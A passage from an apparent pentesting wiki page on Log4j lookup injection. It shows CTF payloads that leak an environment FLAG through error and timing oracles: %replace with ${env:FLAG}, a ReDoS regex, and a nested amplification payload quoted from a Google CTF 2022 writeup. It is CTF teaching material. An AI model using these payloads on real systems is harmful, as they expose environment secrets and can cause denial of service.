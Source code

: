 ```bash
%replace{${env:FLAG}}{^CTF.*}{${error}}
# The string searched is the env FLAG, the regex searched is ^CTF.*
## and ONLY if it's found ${error} will be resolved with will trigger an exception
```

- **Time based**

As it was mentioned in the previous section, **`%replace`** supports **regexes**. So it's possible to use payload from the [**ReDoS page**](../regular-expression-denial-of-service-redos.md) to cause a **timeout** in case the flag is found.\
For example, a payload like `%replace{${env:FLAG}}{^(?=CTF)((.`_`)`_`)*salt$}{asd}` would trigger a **timeout** in that CTF.

In this [**writeup**](https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/), instead of using a ReDoS attack it used an **amplification attack** to cause a time difference in the response:

> ```
> /%replace{
> %replace{
> %replace{
> %replace{
> %replace{
> %replace{
> %replace{${ENV:FLAG}}{CTF\{" + flagGuess + ".*\}}{#############################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> ```
>
> If the flag starts with `flagGuess`, the whole flag is replaced with 29 `#`-s (I used this character because it would likely not be part of the flag). **Each of the resulting 29 `#`-s is then replaced by 54 `#`-s**. This process is repeated **6 times**, leading to a total of ` 29*54*54^6* =`` `` `**`96816014208`** **`#`-s!**
>
> Replacing so many `#`-s will trigger the 10-second timeout of the Flask application, which in turn will result in the HTTP status code 500 being sent to the user. (If the flag does not start with `flagGuess`, we will receive a non-500 status code)

## References

- [https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/](https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/)
- [https://www.bleepingcomputer.com/news/security/all-log4j-logback-bugs-we-know-so-far-and-why-you-must-ditch-215/](https://www.bleepingcomputer.com/news/security/all-log4j-logback-bugs-we-know-so-far-and-why-you-must-ditch-215/)
- [https://www.youtube.com/watch?v=XG14EstTgQ4](https://www.youtube.com/watch?v=XG14EstTgQ4)
- [https://tryhackme.com/room/solar](https://tryhackme.com/room/solar)
- [https://www.youtube.com/watch?v=Y8a5nB-vy78](https://www.youtube.com/watch?v=Y8a5nB-vy78)
- [https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)
- [https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/](https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/)
- [https://sigflag.at/blog/2022/writeup-googlectf2022-log4j/](https://sigflag.at/blog/2022/writeup-googlectf2022-log4j/)

